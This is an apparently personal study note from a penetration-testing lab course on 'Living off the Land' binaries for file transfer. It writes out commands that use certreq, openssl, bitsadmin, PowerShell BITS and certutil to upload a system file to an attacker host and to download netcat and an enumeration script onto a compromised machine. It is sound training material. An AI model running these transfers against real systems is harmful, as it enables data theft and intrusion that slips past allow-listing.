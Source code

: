 Two websites that aggregate information on Living off the Land binaries:
- [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/)
- [GTFOBins for Linux Binaries]()

Living off the Land Binaries can perform the following actions:
- download
- upload
- command execution
- file read/write
- bypasses

**LOLBAS**
To search for download and upload functions in LOLBAS we can use /download or /upload

![[Pasted image 20230830034543.png]]

Example: using CertReq.exe to listen on a port on our attack host for incoming traffic using Netcat and then execute certreq.exe to upload a file.

**Upload win.ini to our Pwnbox**
```
certreq.exe -Post -config http://192.168.49.128/ c:\windows\win.ini
```
	NOTE: This will send the file to our Netcat listening session, and we can copy-paste its     contents

**File Received in our Netcat Session**
```
sudo nc -lvnp 80
```

**GTFOBins**
To search for the download and upload function in GTFOBins for Linux Binaries, we can use +file download or +file upload.

![[Pasted image 20230830035116.png]]

For this example, we'll use OpenSSL as it can be used to send files similarly to netcat/nc

**Create Certificate in our Pwnbox**
```
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

**Stand up the Server in our Pwnbox**
```
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

**Download File from the Compromised Machine**
```
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

### Other Common Living off the Land tools

**Bitsadmin Download function**
The Background Intelligent Transfer Service (BITS) can be used to download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user's foreground work

**File Download with Bitsadmin**
```
bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

**Download**
```
Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

**Certutil**
Can be used to download files on Windows machines. 
```
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```

### Questions

